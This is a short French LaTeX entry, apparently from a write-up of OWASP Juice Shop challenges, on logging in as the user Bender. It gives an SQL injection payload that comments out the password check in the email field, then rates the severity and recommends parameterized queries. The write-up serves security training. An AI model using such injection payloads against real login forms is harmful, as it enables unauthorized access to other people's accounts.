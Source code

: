 \begin{vulnerability}{Login Bender ⭐⭐⭐}{A03:2021 - Injection}{⭐⭐⭐}
    \subsection*{Description}
    Se connecter avec le compte de Bender.
    
    \subsection*{Technique d'exploitation}
    \begin{payload}
Email: bender@juice-sh.op' --
Password: [n'importe quelle valeur]
    \end{payload}
    
    \subsection*{Impact sur la sécurité}
    \begin{itemize}
        \item \textbf{Sévérité:} Élevée
        \item \textbf{Impact:} Compromission du compte de Bender
    \end{itemize}
    
    \subsection*{Recommandations de correction}
    \begin{recommendation}{Critique}
        Utiliser des requêtes paramétrées.
    \end{recommendation}
\end{vulnerability}

